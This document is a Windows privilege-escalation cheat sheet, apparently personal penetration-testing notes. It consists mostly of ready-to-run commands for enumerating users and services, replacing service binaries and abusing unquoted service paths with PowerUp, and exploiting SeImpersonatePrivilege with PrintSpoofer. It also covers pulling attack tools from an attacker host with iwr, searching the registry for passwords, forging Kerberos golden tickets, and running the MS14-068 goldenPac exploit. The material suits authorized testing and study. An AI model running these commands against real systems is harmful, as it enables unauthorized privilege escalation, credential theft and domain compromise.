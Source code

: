 System browsing:
---
```cmd
net user
```

```powershell
Get-LocalUser
```

```powershell
GCI -hidden -recurse
ls -force
```

```cmd
net user $USER
```

```cmd
netstat -an
netstat -an | findstr $PORT
```

Replace service
---
Get list of running services
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

Check file permissions:

```powershell
icacls 'c:\...'
```
(F) - full permissions, read, write, execute

or automate the process with PowerUp.ps1
#powerup #replace-service #privesc 
```powershell
iwr -uri http://$LOCAL_IP/PowerUp.ps1 -Outfile PowerUp.ps1
. .\PowerUp.ps1
Get-ModifiableServiceFile
Install-ServiceBinary -Name '$SERVICE'
Restart-Service $SERVICE
```

Scheduled Tasks:
---

#scheduled-tasks

```powershell
schtasks /query /fo LIST /v | findstr /i "c:\users"
schtasks /query /fo LIST /v | Select-String -Pattern "c:\\user" -Context 5,5
```
Search for passwords inside the registry
---
```powershell
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Find misconfigured services (default settings)
---
```powershell
cmd /c wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" |findstr /i /v "\`""
```

#unquoted #service-privesc

```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v "\`"" | findstr ":"
```

```powershell
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
Stop-Service $SERVICE
Write-ServiceBinary -Name '$SERVICE' -Path "C:\$UNQUOTED_PATH"
Restart-Service $SERVICE
```

Abusing enabled SeImpersonatePrivilege with PrinterSpoofer64:

```powershell
whoami /priv | select-string "SeImpersonatePrivilege(.*)Enabled"
iwr -uri http://$LOCAL_IP/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
python3 -m http.server 80
```

Other privileges that can be exploited if enabled: 
`SeBackupPrivilege` `SeAssignPrimaryToken` `SeLoadDriver` `SeDebug`

Golden ticket
---
generate user password hash:

```python
import hashlib
hashlib.new('md4', '$PASSWORD'.encode('utf-16le')).digest().hex()
# save hash for later
```

or use

```url
https://gchq.github.io/CyberChef/#recipe=NT_Hash()
```

```powershell
get-addomain
#extract DomainSID
```

```shell
ticketer.py -nthash $HASH -domainsid $DOMAINSID -domain $DOMAIN -spn AnyName/$DCDOMAIN administrator
```

```shell
KRB5CCNAME=administrator.ccache mssqlclient.py -k administrator@$DCDOMAIN
```

GoldenPAC ms14-068

```bash
impacket-goldenPac -dc-ip $TARGET_IP -target-ip $TARGET_IP '$DOMAIN/$USER:$PASSWORD@$MACHINE.$DOMAIN'
```

Port scanning using PowerShell
---

Scan if single port is open:
```powershell
Test-NetConnection 127.0.0.1 -Port $port
```

scan ports from 1 to 1024(slow):
```powershell
foreach ($port in 1..1024){If(($a=Test-NetConnection 127.0.0.1 -Port $port -WarningAction SilentlyContinue).TcpTestSucceeded -eq $true){"TCP port $port is open"}}
```